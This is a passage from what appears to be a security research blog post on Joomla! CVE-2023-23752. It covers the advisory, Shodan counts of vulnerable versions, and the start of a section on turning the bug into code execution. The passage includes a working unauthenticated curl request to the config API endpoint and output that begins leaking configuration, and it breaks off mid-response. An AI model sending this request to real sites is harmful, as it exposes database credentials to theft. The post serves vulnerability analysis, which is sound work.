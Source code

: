 On February 16, 2023, Joomla! published a \[security advisory\](https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html) for \[CVE-2023-23752\](https://nvd.nist.gov/vuln/detail/CVE-2023-23752). The advisory describes an “improper access check” affecting Joomla! 4.0.0 through 4.2.7. The following day, a \[chinese-language blog shared\](https://xz.aliyun.com/t/12175) the technical details of the vulnerability. The blog describes an authentication bypass that allows an attacker to leak privileged information. \\n\\nThe blog’s disclosure was followed by a \[stream of exploits\](https://github.com/search?q=CVE-2023-23752&type=repositories) hitting GitHub, and \[multiple\](https://isc.sans.edu/diary/rss/29614) \[indicators\](https://viz.greynoise.io/tag/joomla-credential-disclosure-cve-2023-23752-attempt?days=30) of exploitation in the wild. The public exploits focus on leaking the victim’s MySQL database credentials – an unexciting prospect (we thought), because exposing the database to the internet is a dangerous misconfiguration. Nonetheless, attackers seemed interested in the vulnerability, so we sought to find out why.\\n\\n## Joomla! Versions in the Wild\\n\\nThe importance of a vulnerability is often linked to the number of affected internet-facing systems. \[A\](https://www.shodan.io/search?query=http.component%3A%22Joomla%22) \[couple\](https://www.shodan.io/search?query=html%3A%22Joomla%21+-+Open+Source+Content+Management%22) Shodan queries find approximately 50,000 internet-facing Joomla! Instances. \[Censys\](https://search.censys.io/search?resource=hosts&sort=RELEVANCE&per\_page=25&virtual\_hosts=INCLUDE&q=services.http.response.body%3A%22Joomla%21+-+Open+Source+Content+Management%22), with virtual hosts included, puts that number closer to 1.3 million installations. We only have access to the Shodan data though, so we continue with that for the remainder of this writeup.\\n\\nA Joomla! installation’s version can be remotely extracted without authentication by querying one of a few different endpoints. Joomla! version 4 exposes version information in the \`/language/en-GB/langmetadata.xml\` endpoint. Additionally, most, if not all, Joomla! Instances expose their version in the \`/administrator/manifests/files/joomla.xml\` endpoint (retrievable without authentication, despite the pathname). We scanned the IP addresses indexed by Shodan and found that Joomla! 4 is not very popular. Only about 14% of responding Joomla! instances used version 4, the only version affected by CVE-2023-23752.\\n\\n> Joomla! Major Versions in the Wild\\n\\n::bar-chart\\n---\\nlabels:\\n - 1\\n - 2\\n - 3\\n - 4\\nvalues:\\n - 205\\n - 2827\\n - 25061\\n - 4597\\n---\\n::\\n\\nFewer than 5000 internet-facing installations is hard to get excited about. But what’s even worse for attackers, is that only ~1500 (or 4% of the responding Joomla! servers) remain vulnerable to the attack.\\n\\n> Joomla! Version 4 Versions in the Wild\\n\\n::bar-chart\\n---\\nlabels:\\n - 4.3.0\\n - 4.2.9\\n - 4.2.8\\n - 4.2.7\\n - 4.2.6\\n - 4.2.5\\n - 4.2.4\\n - 4.2.3\\n - 4.2.2\\n - 4.2.1\\n - 4.2.0\\n - 4.1.5\\n - 4.1.4\\n - 4.1.3\\n - 4.1.2\\n - 4.1.1\\n - 4.1.0\\n - 4.0.6\\n - 4.0.5\\n - 4.0.4\\n - 4.0.3\\n - 4.0.2\\n - 4.0.1\\n - 4.0.0\\nvalues:\\n - 3\\n - 984\\n - 876\\n - 214\\n - 429\\n - 198\\n - 104\\n - 133\\n - 101\\n - 25\\n - 38\\n - 794\\n - 92\\n - 39\\n - 116\\n - 1\\n - 104\\n - 73\\n - 53\\n - 106\\n - 82\\n - 15\\n - 2\\n - 15\\n---\\n::\\n\\nWhich means, despite continued interest from attackers, this vulnerability has almost run its course just a month after disclosure.\\n\\nBased on the versions of the internet-facing Joomla!, we believe this vulnerability, while dangerous, was never a huge issue (nothing approaching \[Drupelgaddon\](https://www.rapid7.com/blog/post/2018/04/27/drupalgeddon-vulnerability-what-is-it-are-you-impacted/) at least). So what about this vulnerability has attackers so excited that they are \*still\* landing new exploits on GitHub?\\n\\n## CVE-2023-23752 to Code Execution #1\\n\\nAs discussed, CVE-2023-23752 is an authentication bypass resulting in an information leak. Most of the public exploits use the bypass to leak the system's configuration, which contains the Joomla! MySQL database credentials in plaintext. The following demonstrates the leak:\\n\\n\`\`\`sh\\ncurl -v http://10.9.49.205/api/index.php/v1/config/application?public=true\\n\* Trying 10.9.49.205:80...\\n\* TCP\_NODELAY set\\n\* Connected to 10.9.49.205 (10.9.49.205) port 80 (#0)\\n> GET /api/index.php/v1/config/application?public=true HTTP/1.1\\n> Host: 10.9.49.205\\n> User-Agent: curl/7.68.0\\n> Accept: \*/\*\\n>\\n\* Mark bundle as not supporting multiuse\\n< HTTP/1.1 200 OK\\n< Date: Mon, 20 Mar 2023 15:14:05 GMT\\n< Server: Apache/2.4.41 (Ubuntu)\\n< x-frame-options: SAMEORIGIN\\n< referrer-policy: strict-origin-when-cross-origin\\n< cross-origin-opener-policy: same-origin\\n< X-Powered-By: JoomlaAPI/1.0\\n< Expires: Wed, 17 Aug 2005 00:00:00 GMT\\n< Last-Modified: Mon, 20 Mar 2023 15:14:05 GMT\\n< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0\\n< Pragma: no-cache\\n< Content-Length: 1983\\n< Content-Type: application/vnd.api+json; charset=utf-8\\n<\\n{"links":{"self":"http:\\/\\/10.9.49.205\\/api\\/index.php\\/v1\\/config\\/application?public=true","next":"http:\\/\\/10.9.49.205\\/api\\/index.php\\/v1\\/config\\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\\/\\/10.9.49.205\\/api\\/index.php\\/v1\\/config\\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":\[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline\_message":"This site is down for maintenance.  